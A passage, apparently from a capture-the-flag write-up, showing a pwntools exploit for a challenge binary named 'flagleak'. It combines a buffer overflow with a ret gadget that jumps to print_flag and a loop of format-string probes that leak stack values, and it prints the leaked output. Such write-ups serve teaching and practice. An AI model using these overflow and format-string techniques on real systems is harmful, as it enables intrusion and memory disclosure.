 ```py
for i in range(1, 30):
    p.sendline(f'%{i}$p')
    leak = p.recvline(False)
    print(i, leak)
```
In this case I had to do the following because the program exits after the format string.
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./flagleak')
libc = elf.libc

offset = 0x68

r = ROP(elf)
ret = r.find_gadget(['ret'])[0]

for i in range(1, 30):
    start()
    p.recvline()

    payload = b'A'*offset 
    payload += p64(ret) 
    payload += p64(elf.sym.print_flag)

    p.send(payload)

    p.recvline()

    p.sendline(f'%{i}$p')
    leak = p.recvline(False)
    print(i, leak)

    p.close()

p.interactive()
p.close()
```
This gives the following:
```
1 b'0x7f08e8bdca03'
2 b'(nil)'
3 b'0x7f92953a1e8e'
4 b'0x7ffd06207c10'
5 b'(nil)'
6 b'0x4141000a70243625'
7 b'0x4141414141414141'
8 b'0x4141414141414141'
9 b'0x4141414141414141'
10 b'0x4141414141414141'
11 b'0x4141414141414141'
12 b'0xc902a0'
13 b'0x300401016'
14 b'0x4141414141414141'
15 b'0x100000000'
16 b'0x40128a'
```
